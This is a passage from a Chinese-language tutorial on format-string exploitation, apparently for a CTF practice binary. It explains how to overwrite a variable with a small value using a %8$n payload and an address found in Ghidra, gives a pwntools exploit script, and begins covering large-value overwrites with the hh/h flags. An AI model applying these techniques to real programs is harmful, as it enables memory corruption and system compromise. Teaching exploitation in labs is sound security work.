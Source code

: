 继续用前面我们给出的例子进行讲解  
```
a == 2

```  
  
我们想要实现a的值为2，也就是覆盖a的值让他变成2  
  
这种就属于是小于机器字长的数字，到这里有师傅就会问，这两种有什么区别呢，乍一看区别的确不大，但是如果将覆盖的地址放在最前面，将会直接占用机器字长个（4或8）字节。无论后面如何输出都会比4大。  
  
所以到这里我们就考虑是否可以将所要覆盖的地址不放在字符串的最前面，因为我们的填充字段的本身的作用是为了找到对应的偏移，所以放到中间也是可以的，我们想要做到的是通过覆盖将a的值变为2，所以格式化字符串到底前面的字节需要是这样的  
```
TT%k$nxx

```  
  
目前对应的存储的格式化字符串已经占据了6个字符串的位置，如果再添加两个字符TT，那此时TT%k就是第6个参数，$nxx是第7个参数，后面如果跟上要覆盖的地址那就是第8个参数，所以只要将k设置为8，就可以实现覆盖了，即  
```
TT%8$nTT

```  
  
下面我们就来进行覆盖操作  
  
在覆盖前，我们手下要找到a的地址，直接用Ghidra就可以分析得到  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72OYVv3XpOFLwPomnNYqq3nOicuN1rktamHpwGWzwpGOxvCZ1aq2bF3Lg/640?wx_fmt=png&from=appmsg "")  
```
a_addr = 0x0804c024

```  
  
所以最终的exp如下  
```
from pwn import *
sh = process('./format2')
a_addr = 0x0804c024
payload = b'TT%8$nTT' + p32(a_addr)
sh.sendline(payload)
print(sh.recv())
sh.interactive()

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72ibmq4SBo9ssEHmyWdP0hsNGNruicz3dIpibmKDJeNxmOZQJOjicgx8dTeg/640?wx_fmt=png&from=appmsg "")  
#### 覆盖大数字  
  
在这一部分给大家讲解覆盖大数字的操作，我们可以选择一次性输出大数字个字符来进行覆盖，但基本上不会成功，因为太长。而且即使成功，一次性等待的时间也太长，所以我们考虑用其他的方法，在介绍方法前我们先了解一下变量在内存中的存储格式。  
  
所有的变量在内存中都是以字节进行存储，在x86和x64体系结构中，变量的存储格式为小端存储，即最低有效位存储在低地址，以0x12345678在内存中由低地址到高地址依次为\x78\x56\x34\x12，这里我们涉及到两个格式化字符串的标志  
```
hh 整数类型，printf期待一个从char提升的int尺寸的整型参数。
h  证书类型，printf期待一个从short提升的int尺寸的整型参数。

```  
  